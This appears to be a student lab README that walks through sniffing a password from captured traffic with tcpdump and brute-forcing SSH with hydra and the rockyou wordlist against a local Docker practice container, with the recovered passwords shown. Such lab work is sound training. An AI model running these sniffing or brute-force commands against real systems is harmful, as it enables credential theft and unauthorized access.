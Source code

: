 # Attack is the best defense


## task 0. ARP spoofing and sniffing unencrypted traffic 

#### terminal 0
``` bash
-$ sudo tcpdump -i enp0s3 -w dump.pcap 'not port 22'
```

On the other terminal, run the `user_authenticating_into_server` script

#### terminal 1
```bash
-$ ./user_authenticating_into_server
```

Once the script is done, you can manually exit (Ctrl+C) on the terminal 0.

``` bash
-$ tcpdump -A -X -r dump.pcap > file.txt
```

```
-$ grep "=ZB" file.txt
```
```
    =ZB.....
    =ZB.....334 UGFzc3dvcmQ6
    ...N=ZB.
    ....=ZB.bXlwYXNzd29yZDk4OTgh
```
the password is `bXlwYXNzd29yZDk4OTgh` base64
and convert to base64 to text `mypassword9898!`

## task 1. Dictionary Attack

You would need to have docker installed on your Ubuntu:
``` bash
-$ sudo apt update
-$ sudo apt install docker.io
```
and install hydra to:
``` bash
-$ sudo apt install hydra
```
and login to docker and start

``` bash
-$ docker login
-$ systemctl start docker
```

``` bash
and now pull and run the Docker image sylvainkalache/264–1:
```

``` bash
-$ docker run -p 2222:22 -d -ti sylvainkalache/264–1
```
I would be making use of the [rockyou](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt) password list.
``` bash
-$ sudo hydra -l sylvain -P /vagrant/rockyou.txt ssh://127.0.0.1:2222 -t 4
```
```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-09-21 09:09:20
[DATA] max 4 tasks per 1 server, overall 4 tasks, 12671 login tries (l:1/p:12671), ~3168 tries per task
[DATA] attacking ssh://127.0.0.1:2222/
[2222][ssh] host: 127.0.0.1   login: sylvain   password: password123
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-09-21 09:09:23
```
and the password is found `password123`
